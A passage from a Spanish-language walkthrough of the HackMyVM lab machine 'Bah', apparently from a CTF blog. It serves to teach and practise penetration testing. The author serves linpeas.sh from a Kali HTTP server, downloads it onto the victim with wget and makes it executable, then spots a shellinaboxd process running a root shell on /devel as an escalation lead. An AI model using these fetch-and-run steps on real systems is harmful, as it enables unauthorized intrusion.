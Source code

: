 Una vez descargado podemos crearnos un pequeño servidor con **`Python`**, este lo utilizaremos para pasar el archivo a la máquina víctima:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Bah/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por último lo descargaremos en la máquina víctima y le daremos los permisos de ejecución:

```sh
rocio@bah:/tmp$ wget http://192.168.1.107/linpeas.sh
--2023-09-26 15:54:17--  http://192.168.1.107/linpeas.sh
Connecting to 192.168.1.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 848400 (829K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 828.52K  --.-KB/s    in 0.02s   

2023-09-26 15:54:17 (44.9 MB/s) - ‘linpeas.sh’ saved [848400/848400]

rocio@bah:/tmp$ chmod +x linpeas.sh
```

Tras haberlo iniciado podemos ver un proceso bastante curioso:

```sh
shellin+     436  0.0  0.3   7456  3396 ?        Ss   15:03   0:00 /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellinabox --user-css Black on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css --no-beep --disable-ssl --localhost-only -s/:LOGIN -s /devel:root:root:/:/tmp/dev
```

Si nos vamos al manual de [**`ShellInAbox`**](https://github.com/shellinabox/shellinabox/wiki/shellinaboxd_man) veremos lo siguiente:

![ShellInABoxManual](/assets/img/imgs/bah/ShellInABoxManual.png)
